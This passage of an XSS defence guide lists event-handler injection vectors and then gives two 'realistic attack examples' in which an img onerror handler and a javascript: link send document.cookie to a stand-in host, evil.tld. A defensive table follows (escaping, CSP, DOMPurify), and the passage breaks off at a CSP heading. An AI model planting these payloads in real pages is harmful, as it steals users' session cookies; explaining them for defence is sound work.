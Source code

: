 IE-only but historically dangerous. Mostly obsolete, but good to be aware of.

---

### 5. `on*` attributes on any element

```html
<div onclick="alert('XSS')">Click here</div>
<input onfocus="alert('XSS')" autofocus>
```

The `on*` attributes (`onload`, `onmouseover`, `onfocus`, etc.) **are dangerous anywhere** HTML is inserted without sanitization.

---

## Realistic Attack Examples

**Image tag + exfiltration**:

```html
<img src="x" onerror="fetch('https://evil.tld?data='+document.cookie)">
```

**Link injection**:

```html
<a href="javascript:fetch('https://evil.tld?data='+document.cookie)">Click me</a>
```

---

## What You Must Do to Protect

| Protection | How it Helps |
|------------|--------------|
| ✅ **Escape all untrusted input** | Prevents HTML injection |
| ✅ **Never use `innerHTML` with untrusted data** | Only use `textContent`, `innerText`, or `safe templating` |
| ✅ **Use a strong Content Security Policy (CSP)** | Blocks inline scripts, event attributes, etc. |
| ✅ **Use libraries like [DOMPurify](https://github.com/cure53/DOMPurify)** | Sanitizes HTML safely |
| ✅ **Frameworks like Angular, React escape by default** | But can still be bypassed via `dangerouslySetInnerHTML`, etc. |
| ✅ **Disable unsafe browser features** | Like `javascript:` URIs, `data:` URIs in CSP |
| ✅ **Don’t trust query strings, cookies, or POST data** | Validate and sanitize every source |

---

## Best CSP to Start With

Set this HTTP header (server-side):
